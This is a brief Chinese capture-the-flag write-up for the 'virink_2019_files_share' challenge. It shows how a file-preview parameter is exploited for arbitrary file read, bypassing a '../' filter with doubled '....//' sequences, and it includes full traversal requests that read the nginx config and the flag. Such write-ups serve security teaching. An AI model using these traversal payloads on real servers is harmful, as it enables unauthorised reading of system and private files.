

# virink_2019_files_share

首先打开网页，发现是一个魔方小游戏


然后查看网页源码发现提示

```
<link rel="icon" href="/uploads/favicon.ico" type="image/x-icon" />
	<!-- Hint : flag in f1ag_Is_h3re -->
	<!-- 趣味题，真的是为了出题而出题的，别打我。 By Virink -->
```

扫目录发现uploads文件夹，访问。



 通过抓包可以发现当单击Preview文件时访问方式是/preview?f=favicon.ico，猜测可能存在任意文件读取漏洞

由于是使用[OpenResty](https://so.csdn.net/so/search?q=OpenResty&spm=1001.2101.3001.7020)，尝试包含nginx的配置文件，默认是/etc/nginx/conf.d/default.conf
尝试访问后发现过滤了../,所以使用双写绕过

```
/preview?f=....//....//....//....//....//....//....//etc..//nginx..//conf.d..//default.conf
```

然后根据提示访问flag文件

```
/preview?f=....//....//....//....//....//....//....//f1ag_Is_h3re..//flag
```

